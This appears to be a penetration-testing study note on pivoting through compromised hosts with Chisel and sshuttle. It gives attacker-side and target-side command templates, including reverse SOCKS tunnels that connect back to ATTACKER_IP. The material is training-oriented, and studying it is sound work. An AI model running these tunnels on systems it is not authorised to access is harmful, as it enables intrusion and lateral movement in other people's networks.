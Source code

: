* * * 

## Pivoting - Chisel

Chisel is a tool that can be used to setup a tunnelled proxy or port forward through a comprimised system whether we have SSH access or not. It's written in Golang and can easily be compiled for any system. 

Before we are able to use chisel we have to download the appropriate binaries on the [release page](https://github.com/jpillora/chisel/releases).

We also have to have the proper copy of the chisel binary on both the attacker and the target.

Chisel has two modes: client and server. We can access them with `chisel client --help` or `chisel server --help`

__Reverse SOCKS Proxy with Chisel__

This connects back from a compromised server to a listener waiting on our attacking machine.

- On attacker: `./chisel server -p LISTEN_PORT --reverse &`
- On target: `./chisel client ATTACKER_IP:LISTEN_PORT R:port:socks &`

__Forward SOCKS Proxy__

1. On target `./chisel server -p LISTEN_PORT --socks5`
2. On attacker `./chisel client TARGET_IP:LISTEN_PORT PROXY_PORT:socks`

For example, `./chisel client 172.16.0.10:8080 1337:socks` would connect to a chisel server running on port 8080 of 172.16.0.10. A SOCKS proxy would be opened on port 1337 of our attacking machine.

__Remote Port Forward__

1. Attacker: `./chisel server -p LISTEN_PORT --reverse &`
2. Target: `./chisel client ATTACKING_IP:LISTEN_PORT R:LOCAL_PORT:TARGET_IP:TARGET_PORT &`

__Local Port Forward__

1. Setup on Target: `./chisel server -p LISTEN_PORT`
2. Connect from Attacker: `./chisel client LISTEN_IP:LISTEN_PORT LOCAL_PORT:TARGET_IP:TARGET_PORT`

> As with the backgrounded socat processes, when we want to destroy our chisel connections we can use jobs to see a list of backgrounded jobs, then kill %NUMBER to destroy each of the chisel processes.

> Note: When using Chisel on Windows, it's important to remember to upload it with a file extension of .exe (e.g. chisel.exe)!

* * * 

## Pivoting - sshuttle 

sshuttle is different than the others, it doesn't create a port forward and the proxy it uses a SSH connection to create a tunnelled proxy that in a way simulated a VPN and gives an encrypyed connection. sshuttle only works on Linux targets and also requireds access to the compromised server via SSH. It also needs Python. can be installed with `sudo apt install sshuttle`

- connect to a server with sshuttle `sshuttle -r username@address subnet` - rather then specifying subnuts we can also use `-N` to determine them automatically. 
- when using key-based authentication `sshuttle -r user@address --ssh-cmd "ssh -i KEYFILE" SUBNET`
